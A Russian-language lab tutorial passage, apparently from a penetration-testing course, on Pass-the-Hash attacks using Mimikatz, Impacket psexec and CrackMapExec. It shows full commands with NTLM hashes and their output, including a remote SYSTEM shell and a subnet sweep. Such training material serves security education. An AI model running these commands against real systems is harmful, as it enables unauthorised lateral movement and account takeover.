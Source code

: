 ## Передайте хэш с Mimikatz (Windows)

Первым инструментом, который мы будем использовать для проведения атаки Pass the Hash, является [Mimikatz](https://github.com/gentilkiwi) . Mimikatz имеет модуль с именем `sekurlsa::pth`это позволяет нам выполнить атаку Pass the Hash, запустив процесс с использованием хэша пароля пользователя. Для использования этого модуля нам потребуется следующее:

-   `/user`- Имя пользователя, которое мы хотим олицетворять.
-   `/rc4`или `/NTLM`- NTLM-хэш пароля пользователя.
-   `/domain`- Домен, к которому принадлежит пользователь, которого нужно олицетворить. В случае локальной учетной записи пользователя мы можем использовать имя компьютера, localhost или точку (.).
-   `/run`- Программа, которую мы хотим запустить с контекстом пользователя (если не указано, она запустит cmd.exe).
```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
user    : julio
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 64F12CDDAA88057E06A81B54E73B949B
  |  PID  8404
  |  TID  4268
  |  LSA Process was already R/W
  |  LUID 0 ; 5218172 (00000000:004f9f7c)
  \_ msv1_0   - data copy @ 0000028FC91AB510 : OK !
  \_ kerberos - data copy @ 0000028FC964F288
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000028FC9673AE8 (32) -> null
```

Теперь мы можем использовать cmd.exe для выполнения команд в контексте пользователя. Для этого примера `julio`может подключиться к общей папке с именем `julio`на ДК.

## Передайте хэш с помощью Impacket (Linux)

#### Передайте хэш с помощью Impacket PsExec
```shell-session
lizergindoma@htb[/htb]$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## Передайте хэш с помощью CrackMapExec (Linux)
```shell-session
lizergindoma@htb[/htb]# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

#### CrackMapExec — выполнение команд
```shell-session
lizergindoma@htb[/htb]# crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

